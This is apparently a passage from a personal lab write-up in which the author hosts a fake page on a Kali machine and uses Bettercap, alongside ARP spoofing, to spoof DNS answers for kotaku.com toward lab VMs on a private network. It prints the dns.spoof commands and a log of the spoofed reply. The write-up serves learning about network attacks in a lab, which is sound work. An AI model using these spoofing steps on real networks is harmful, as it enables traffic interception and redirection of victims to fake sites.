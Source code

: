 ### Creating a Fake Page

```bash
# Navigate to web root
cd /var/www/html

# Edit the default page
sudo nano index.html
```

I replaced the default Debian page with custom content:

```html
<h1>You've been DNS spoofed!</h1>
<p>This is not the website you were looking for.</p>
```

### First Issue: Page Not Updating

After editing `index.html`, I visited `http://172.16.236.128` in my browser and still saw the old Debian page. The issue was **browser caching**.

**Solution:**
- Hard refresh: `Ctrl + F5`
- Or test from command line: `curl http://172.16.236.128`

The page was actually updated (Windows VM could see it), but my Kali browser had cached the old version.

**Lesson learned:** Always test from the target machine or use `curl` to bypass browser cache.

---

## Phase 2: Attempting DNS Spoofing

With the web server ready and ARP spoofing active, I attempted DNS spoofing.

### Initial Attempt: Kotaku.com

My first target was `kotaku.com`, a popular gaming news site.

```bash
# In Bettercap
set dns.spoof.all true
set dns.spoof.domains kotaku.com
set dns.spoof.address 172.16.236.128
dns.spoof on
```

**What happened:**

Bettercap's logs showed DNS spoofing was working:
```
[sys.log] [inf] dns.spoof sending spoofed DNS reply for kotaku.com (->172.16.236.128) to 172.16.236.145
```
